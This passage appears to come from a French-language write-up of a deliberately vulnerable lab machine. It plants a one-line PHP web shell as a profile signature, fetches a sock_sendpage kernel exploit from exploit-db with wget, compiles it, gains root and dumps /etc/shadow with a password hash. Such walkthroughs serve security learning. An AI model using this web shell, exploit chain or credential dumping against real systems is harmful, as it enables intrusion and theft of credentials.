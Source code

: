 Comme signature on mettra un code très classique :  

```plain
<?php system($_GET["cmd"]); ?>
```

On a maintenant notre première backdoor à cette adresse : */profiles/blogger-sig.php?cmd=commande*  

Ensuite on rapatrie une backdoor plus évoluée avec support du terminal.  

K is for Kernel, L is for Linux, O is for Old, P is for Pwnable
---------------------------------------------------------------

Tentons d'obtenir un accès root. Le kernel est ancien (2.6.8-2-386) donc ça devrait être aisé. On trouve [un exploit pour une faille dans sock\_sendpage](http://www.exploit-db.com/exploits/9479/) qui fait l'affaire :  

```plain
sh-2.05b$ wget -O socksend.c http://www.exploit-db.com/download/9479
--08:41:48--  http://www.exploit-db.com/download/9479
           => `socksend.c'
Resolving www.exploit-db.com... 192.99.12.218, 198.58.102.135
Connecting to www.exploit-db.com[192.99.12.218]:80... connected.
HTTP request sent, awaiting response... 301 Moved Permanently
Location: http://www.exploit-db.com/download/9479/ [following]
--08:41:49--  http://www.exploit-db.com/download/9479/
           => `socksend.c'
Connecting to www.exploit-db.com[192.99.12.218]:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3,509 [application/txt]

100%[==============================================================>] 3,509         --.--K/s             

08:41:49 (744.79 KB/s) - `socksend.c' saved [3509/3509]

sh-2.05b$ gcc -o socksend socksend.c 
sh-2.05b$ ./socksend 
Segmentation fault
sh-2.05b$ ./socksend 
[-] check ur uid
sh-2.05b$ id
uid=0(root) gid=0(root) groups=33(www-data)
sh-2.05b$ ls /root/
dbootstrap_settings  install-report.template  vuln-blog.tgz
sh-2.05b$ head /etc/shadow
root:$1$NTiT03rp$/kR5dsGRNA3UX7/6MbFEl/:14964:0:99999:7:::
daemon:*:14880:0:99999:7:::
bin:*:14880:0:99999:7:::
sys:*:14880:0:99999:7:::
sync:*:14880:0:99999:7:::
games:*:14880:0:99999:7:::
man:*:14880:0:99999:7:::
lp:*:14880:0:99999:7:::
mail:*:14880:0:99999:7:::
news:*:14880:0:99999:7:::
sh-2.05b# locate -i phrack
locate: /var/cache/locate/locatedb: No such file or directory
sh-2.05b# updatedb
sh-2.05b# locate -i phrack
/home/testuser/stuff/phrack67.tar.gz
```
